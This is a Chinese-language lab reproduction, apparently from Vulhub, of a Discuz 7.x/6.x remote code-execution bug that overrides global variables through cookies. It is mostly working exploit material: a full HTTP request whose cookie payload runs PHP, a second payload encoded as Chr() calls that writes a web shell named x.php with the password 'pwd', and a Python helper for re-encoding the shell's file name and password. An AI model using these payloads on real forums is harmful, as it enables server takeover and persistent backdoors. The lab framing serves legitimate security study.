


Discuz 7.x/6.x 全局变量防御绕过导致代码执行¶
漏洞描述¶
由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致$_REQUEST中不再包含$_COOKIE，也就是说默认配置下$_REQUEST只包含$_GET和$_POST而不包括$_COOKIE。
我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。
具体原理请参考：
环境搭建¶
Vulhub执行如下命令启动Discuz 7.2：
docker-compose up -d
启动后，访问http://your-ip:8080/install/来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root。

漏洞复现¶
安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();：
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close

同样方法传入以下Cookie写入一句话木马文件，文件为x.php，密码为pwd
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
ASCII码和字符互相转换的小脚本，方便修改POC的文件名和密码：
import re
# ASCII = ord(Word)
# Word = chr(ASCII)
# ASCII -> Word
def ASCII2word(ASCIIs):
for c in re.findall(r"(\d+)", ASCIIs):
print(chr(int(c)),end="")
# Word -> ASCII
def word2ASCII(words):
ASCIIs = ""
for word in words:
ASCIIs += "Chr(" + str(ord(word)) + ")."
print(ASCIIs)
print("----------ASCII TO WORD---------------------")
asciis = "Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(109).Chr(105).Chr(115).Chr(104).Chr(105).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(116).Chr(101).Chr(115).Chr(116).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59)"
ASCII2word(asciis)
print("\n\n----------WORD TO ASCII--------------------")
words = "fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');"
word2ASCII(words)